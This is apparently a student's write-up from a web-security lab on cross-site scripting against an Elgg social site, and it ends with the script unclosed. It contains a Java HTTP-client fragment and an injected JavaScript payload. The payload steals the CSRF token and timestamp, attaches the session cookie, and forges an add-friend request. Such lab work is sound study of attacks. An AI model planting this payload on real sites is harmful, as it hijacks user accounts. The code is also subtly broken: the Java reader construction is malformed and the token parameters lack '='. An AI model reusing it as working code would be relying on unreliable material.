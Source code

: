 ```java
            System.out.println("Response Code = " + responseCode);

            // HTTP status code
            // HTTP_OK means the response was received sucessfully.
            if (responseCode == HttpURLConnection.HTTP_OK){
                // Get the input stream from url connection object.
                responseIn = urlConn.getInputStream();
                // Create an instance for BufferedReader
                // to read the response line by line.
                BufferedReader buf_inp = new BufferedReader();
                new InputStreamReader(responseIn));
                String inputLine;
                while((inputLine = buf_inp.readLine())!=null) {
                    System.out.println(inputLine);
                    }
                }
            }
            catch (MalformedURLException e) {
                e.printStackTrace();
            }
        }
    }
}
```

### GET with XSS - add friend

1. capture the GET request packet
    - Using the `"HTTP Header Live"` add-on to Inspect HTTP Headers

![Screen Shot 2020-09-20 at 00.18.19](https://i.imgur.com/rRo8aig.png)

![Screen Shot 2020-09-20 at 00.16.52](https://i.imgur.com/lzjweg9.png)



2. construct the URL for send add friend Request

```js
<script type="text/javascript">

window.onload = function () {
    // C: js to access Security Token __elgg_token
    var token = "&__elgg_token" + elgg.security.token.__elgg_token;

    // B: js to access Time Stamp __elgg_ts
    var ts = "&__elgg_ts" + elgg.security.token.__elgg_ts;

    // A: Find user ID from LiveHTTPHeader
    var sendurl = "http://www.web.com/action/add?friend=42"+token+ts;


    // write the Ajax code
    var Ajax=null;
    // create and send Ajax request to add friend
    Ajax = new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.setRequestHeader("Host", "www.web.com");
    Ajax.setRequestHeader("Keep-Alive", "300");
    Ajax.setRequestHeader("Connection", "keep-alive");

    // D: js to access the session cookie
    Ajax.setRequestHeader("Cookie", document.cookie);
    Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    Ajax.send();
```